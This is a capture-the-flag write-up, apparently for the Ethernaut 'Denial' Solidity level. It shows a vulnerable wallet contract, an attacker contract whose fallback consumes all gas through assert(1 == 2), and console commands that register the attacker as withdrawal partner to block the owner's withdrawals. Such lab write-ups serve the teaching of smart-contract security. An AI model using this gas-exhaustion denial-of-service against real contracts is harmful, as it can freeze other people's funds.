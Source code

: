 # Denial

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.
If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds) you will win this level.

```javascript
pragma solidity ^0.4.24;

contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = 0xA9E;
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance/100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call.value(amountToSend)();
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    function() payable {}

    // convenience function
    function contractBalance() view returns (uint) {
        return address(this).balance;
    }
}
```

Keep eyes on the level requirement, according `withdraw()` in this contract will withdraw 1% to recipient and 1% to owner, our mission is to make `owner.transfer(amountToSend);` fail.

Therefore, if we deploy a contract which own a fallback function will `assert()` a hardcode false statement, that will run out all the gas and stop all incomming transactions. (not matter with `timeLastWithdrawn = now;` and `withdrawPartnerBalances[partner] += amountToSend;` )

```javascript
pragma solidity ^0.4.24;

contract DenialAttack {
    function () payable {
        // consume all the gas
        assert(1 == 2);
    }
}
```

Set contract address which you deploy then call instance's `withdraw()` to send ether and trigger gas-consume-all machenism.

```javascript
await contract.contractBalance()
await contract.setWithdrawPartner(0x5e1078ab3a33efbbd6bb28bacd44d3e4c2ae69bf)
await contract.withdraw()
await contract.contractBalance()
```

![](https://i.imgur.com/ylk1wEt.png)
![](https://i.imgur.com/6MUTZHS.png)
